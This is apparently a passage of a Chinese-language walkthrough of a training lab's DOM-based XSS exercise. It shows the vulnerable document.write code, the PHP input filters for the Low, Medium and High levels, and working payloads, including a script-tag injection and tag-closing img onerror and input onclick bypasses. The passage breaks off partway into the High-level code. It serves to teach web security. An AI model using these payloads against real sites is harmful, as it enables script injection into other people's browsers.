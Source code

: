 DOM XSS 是通过修改页面的 DOM 节点形成的 XSS。首先通过选择语言后然后往页面中创建了新的 DOM 节点：

```html
document.write("<option value='" + lang + "'>" + $decodeURI(lang) + "</option>");
document.write("<option value='' disabled='disabled'>----</option>");
```

这里的`lang`变量通过`document.location.href`来获取到，并且没有任何过滤就直接URL解码后输出在了`option`标签中，以下payload在`Firefox Developer Edition 56.0b9`版本的浏览器测试成功:



```javascript
?default=English <script>alert('XSS')</script>
```

### Medium

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];

    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

对`default`变量进行了过滤，通过`stripos()` 函数查找`<script`字符串在`default`变量值中第一次出现的位置（不区分大小写），如果匹配搭配的话手动通过`location`将URL后面的参数修正为`?default=English`，同样这里可以通过其他的标签搭配事件来达到弹窗的效果。



闭合`</option>`和`</select>`，然后使用`img`标签通过事件来弹窗

```javascript
?default=English</option></select><img src=x onerror=alert('XSS')>
```

直接利用`input`的事件来弹窗

```none
?default=English<input onclick=alert('XSS') />
```

### High

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
```